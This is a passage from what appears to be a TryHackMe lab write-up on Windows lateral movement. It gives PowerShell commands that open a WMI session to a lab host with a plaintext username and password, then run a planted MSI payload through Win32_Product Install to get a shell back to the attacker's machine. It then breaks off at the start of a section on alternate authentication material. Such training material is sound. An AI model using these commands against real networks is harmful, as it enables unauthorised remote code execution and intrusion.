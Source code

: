 Let's start a WMI session against THMIIS from a Powershell console:

**Victim(Powershell)**

```
powershell
$username = 't1_corine.waters';
$password = 'Korine.1994';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

We then invoke the Install method from the Win32\_Product class to trigger the payload:

**Victim**

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

<figure><img src="../../.gitbook/assets/image (13) (1) (2).png" alt=""><figcaption></figcaption></figure>

As a result, you should receive a connection in your AttackBox from where you can access a flag on t1\_corine.waters desktop.

<figure><img src="../../.gitbook/assets/image (4) (3) (1).png" alt=""><figcaption></figcaption></figure>

## Use of Alternate Authentication Material

By alternate authentication material, we refer to any piece of data that can be used to access a Windows account without actually knowing a user's password itself. This is possible because of how some authentication protocols used by Windows networks work. In this task, we will take a look at a couple of alternatives available to log as a user when either of the following authentication protocols is available on the network:
